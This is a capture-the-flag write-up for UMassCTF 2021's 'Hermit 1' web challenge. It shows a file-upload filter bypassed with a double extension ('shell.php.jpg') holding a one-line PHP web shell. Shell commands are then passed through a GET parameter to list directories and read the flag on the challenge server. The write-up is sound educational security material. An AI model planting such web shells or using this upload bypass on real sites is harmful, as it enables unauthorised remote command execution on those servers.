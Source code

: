 ```yaml
---
date: "2021-03-28T00:00:00Z"
description: Solution for Hermit 1 challenge from UMassCTF 2021
tags: hacking
title: UMassCTF '21 Hermit 1 WriteUp
---
```


<center><a target="_blank" href="/assets/img/hermit-logo.png"><img alt="hermit logo" src="/assets/img/hermit-logo.png" width="300px"/></a></center>

## Solution

There is only one form that accepts a file.

The validation of the file is based on extension so we can try and upload `shell.php.jpg` image with content like this:

```php
<?=`$_GET[0]`?>
```

<br/>

When image is uploaded we see the page like this:

<a target="_blank" href="/assets/img/hermit-shell-uploaded.png"><img alt="hermit logo" src="/assets/img/hermit-shell-uploaded.png" width="500px"/></a>

Click on <strong>See image</strong> and we see a blank page with some strange PHP errors. It's because our "image" expects get param called "0" so let's add one.

`104.197.195.221:8086/show.php?filename=VbvJC0&0=ls`

and we can see list of directories in the project root.


<a target="_blank" href="/assets/img/hermit-ls-project-root.png"><img alt="hermit logo" src="/assets/img/hermit-ls-project-root.png" width="500px"/></a>

Now it's time to search for flag. Let's check home directory like this:

`104.197.195.221:8086/show.php?filename=VbvJC0&0=ls /home`

we see there is only one folder `hermit`

Let's check that folder:

`104.197.195.221:8086/show.php?filename=VbvJC0&0=ls /home/hermit` - and there is flag folder now.

`104.197.195.221:8086/show.php?filename=VbvJC0&0=ls /home/hermit/flag` - shows us `userflag.txt`

`104.197.195.221:8086/show.php?filename=VbvJC0&0=cat /home/hermit/flag/userflag.txt` - shows us the flag


<a target="_blank" href="/assets/img/hermit1-flag.png"><img alt="hermit logo" src="/assets/img/hermit1-flag.png" width="500px"/></a>
